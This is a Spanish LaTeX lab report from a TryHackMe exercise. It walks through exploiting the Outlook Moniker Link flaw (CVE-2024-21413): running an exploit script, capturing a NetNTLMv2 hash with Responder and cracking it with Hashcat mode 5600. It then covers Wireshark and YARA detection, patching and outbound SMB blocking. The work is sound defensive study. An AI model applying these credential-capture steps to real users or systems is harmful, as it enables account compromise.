		
\includegraphics[scale=0.35]{imagenes/Capturas/8.png}
		\vspace{-40pt}
	\end{figure}
	\item Inicializamos la máquina victima en THM y abrimos Outlook:
	\begin{figure}[H]
		\centering
		\vspace{0pt}
		
\includegraphics[scale=0.25]{imagenes/Capturas/10.png}
		\vspace{-60pt}
	\end{figure}
	\newpage
	\item Ejecutamos ahora el exploit con el comando: \texttt{python3 exploit.py}. \\
	Sin embargo en el primer intento, la máquina atacante no recibió las credenciales debido a que Fedora tiene una política de seguridad muy estricta para conexiones entrantes. Por lo tanto con el siguiente comando permitiremos abrir el puerto 445 temporalmente: \\\texttt{sudo firewall-cmd --add-port=445/tcp}.
	\begin{figure}[H]
		\centering
		\vspace{-10pt}
		
\includegraphics[scale=0.30]{imagenes/Capturas/11.png}
		\vspace{-40pt}
	\end{figure}
	\item Al ejecutar el exploit, el correo malicioso fue entregado exitosamente.  Mientras tanto, en la máquina objetivo de TryHackMe, asumimos el papel de victima y abrimos el correo y hacemos clic en el hipervínculo ``Click me''.
	\begin{figure}[H]
		\centering
		\vspace{0pt}
		
\includegraphics[scale=0.3]{imagenes/Capturas/12.png}
		\vspace{-60pt}
	\end{figure}
\end{itemize}

Al hacer clic, la vulnerabilidad CVE-2024-21413 se materializó: Outlook evadió la Vista Protegida e intentó instanciar un objeto COM solicitando el recurso a la dirección IP de la máquina atacante. La máquina objetivo  Windows inició una comunicación saliente por el puerto 445 hacia el equipo atacante Fedora. \\
La conexión entrante fue interceptada por Responder. Como parte del proceso del protocolo SMB, la máquina Windows intentó autenticarse enviando las credenciales correspondiente al usuario activo. Responder capturó exitosamente la respuesta, imprimiendo en consola las credenciales hasheadas en NetNTLMv2.\\
Con este hash en poder del atacante, el ciclo de explotación inicial se considera exitoso. A partir de este punto, el hash podría ser sometido a un proceso de criptoanálisis de fuerza bruta mediante herramientas como Hashcat en modo 5600 (NetNTLMv2) para revelar la contraseña en texto claro.
\begin{figure}[H]
	\centering
	\vspace{-10pt}
	
\includegraphics[scale=0.33]{imagenes/Capturas/13.png}
	\vspace{-40pt}
\end{figure}

\subsection{Detección y Remediación}
Para identificar este tipo de ataques antes de que causen daño, los equipos de defensa utilizan principalmente dos enfoques:
\begin{itemize}
	\item \text{Wireshark}: Dado que el ataque obliga a la computadora de la víctima a conectarse a un servidor externo para entregar la contraseña, herramientas de monitoreo de red como Wireshark pueden detectar esta anomalía. Los defensores buscan conexiones inusuales a través del puerto 445 (SMB) que intenten salir hacia internet o hacia segmentos de red no confiables, lo cual es un comportamiento altamente sospechoso.
	\item \text{YARA}: Para detectar el correo malicioso antes de que el usuario lo abra, se pueden implementar reglas YARA en los filtros de correo corporativo. Estas reglas se programan para buscar el patrón exacto del hipervínculo malicioso (por ejemplo, buscar la cadena \texttt{file://} seguida de un signo de exclamación !) dentro del código HTML de los correos entrantes, bloqueándolos automáticamente.
\end{itemize}
De acuerdo con las notas de la plataforma TryHackMe, la mitigación de esta vulnerabilidad se aborda desde tres frentes:
\begin{itemize}
	\item \textbf{Parches de Seguridad}: Microsoft corrigió esta vulnerabilidad en su actualización de febrero (\textit{Patch Tuesday}). La recomendación principal y obligatoria es actualizar Microsoft Office a través de Windows Update, ya que, al tratarse de un fallo que evade la "Vista Protegida", no existe una configuración manual dentro de Outlook que pueda detener el ataque de raíz.
	\item \textbf{Firewall}: Bloquear el protocolo SMB por completo no es viable, ya que arruinaría el acceso a recursos compartidos en la red local. Sin embargo, una medida excelente es configurar el firewall de la organización para impedir que el tráfico SMB salga hacia internet, bloqueando así la comunicación con el servidor del atacante.
	\item \textbf{Concienciación del Usuario}: Fomentar prácticas seguras de ciberseguridad, como no hacer clic en enlaces de correos no solicitados, pasar el cursor sobre los enlaces para previsualizar el link antes de hacer clic, y reportar correos sospechosos al equipo de seguridad.
\end{itemize}

\subsection{Conclusion}
La explotación de la vulnerabilidad Moniker Link (CVE-2024-21413) demuestra lo peligroso que puede ser un fallo lógico en un software de uso masivo. Microsoft Outlook es uno de los clientes de correo electrónico más utilizados en el mundo empresarial, lo que significa que el alcance potencial de este ataque es inmenso.\\
Lo más destacable de este ejercicio es observar la baja complejidad del ataque: no requiere que la víctima descargue archivos ejecutables ni que instale programas maliciosos; basta con un simple clic en un enlace engañoso para comprometer las credenciales del sistema. Esta práctica marca la importancia crítica de mantener los sistemas actualizados constantemente, ya que depender únicamente de las funciones de seguridad integradas (como la Vista Protegida) no es suficiente cuando el software base contiene fallos estructurales. Finalmente, se conluye que la seguridad informática es una combinación entre herramientas técnicas, configuraciones de red y la educación de los usuarios.

\section{Cuestionario}
\begin{itemize}
	\item \textbf{¿Por qué el exploit funciona?} \\
	El funcionamiento de este exploit (CVE-2024-21413) se basa en una vulnerabilidad lógica en el analizador de hipervínculos de Microsoft Outlook. Al anexar el carácter de exclamación (!) al final de una ruta de red mediante \texttt{file://}, la aplicación altera su comportamiento predeterminado. En lugar de procesar la cadena como una simple solicitud de acceso a un archivo local o de red, Outlook la interpreta como una llamada a un objeto COM (Component Object Model) a través del protocolo Moniker. Este cambio de contexto engaña a la aplicación, provocando que pase por alto las advertencias de seguridad de la "Vista Protegida" (Protected View). Al intentar instanciar el recurso solicitado, la máquina victima inicia automáticamente una conexión SMB (puerto 445) hacia el servidor remoto del atacante e intenta una autenticación, entregando así las credenciales del usuario.
	
	\item \textbf{¿Qué son las reglas YARA? ¿En qué difieren de un firewall?} \\
	Las reglas YARA son una herramienta estándar en la industria de la ciberseguridad, utilizada para identificar y clasificar muestras de malware. Funcionan mediante la definición de patrones (basadas en cadenas de texto o secuencias) que el motor de YARA busca dentro del código fuente de un archivo. \\
	La diferencia fundamental con un firewall radica en su capa y objetivo de operación. Un firewall opera a nivel de red, permitiendo o denegando conexiones basándose en direcciones IP, puertos y protocolos; no analiza a fondo el contenido de los paquetes. Por el contrario, YARA opera a nivel de archivo o memoria, analizando profundamente el contenido estático para detectar código malicioso, independientemente del puerto por el que dicho archivo haya ingresado a la red.
	
	\item \textbf{¿Qué son los NTLM Hashes?}\\
	A diferencia de los hashes estáticos almacenados localmente en el disco duro del sistema (como los guardados en la base de datos SAM), el NetNTLM es producto de un protocolo de autenticación de red. No contiene la contraseña cifrada directamente, sino que es el resultado de una función criptográfica compleja. Su propósito es demostrar la identidad del usuario a través de una red sin transmitir la contraseña en texto plano.
	
	\item \textbf{Una vez obtenido este tipo de credenciales, ¿qué harías para sacarles provecho?}\\
	Desde la perspectiva del Hacking Ético, la obtención de un hash NetNTLMv2 puede aprovecharse para un ataque de criptoanálisis: El hash capturado se exporta a un entorno controlado para ser procesado por herramientas de ruptura como Hashcat o John the Ripper. Utilizando listas de palabras (wordlists), se procesa hasta descubrir la contraseña en texto claro.
	
\end{itemize}
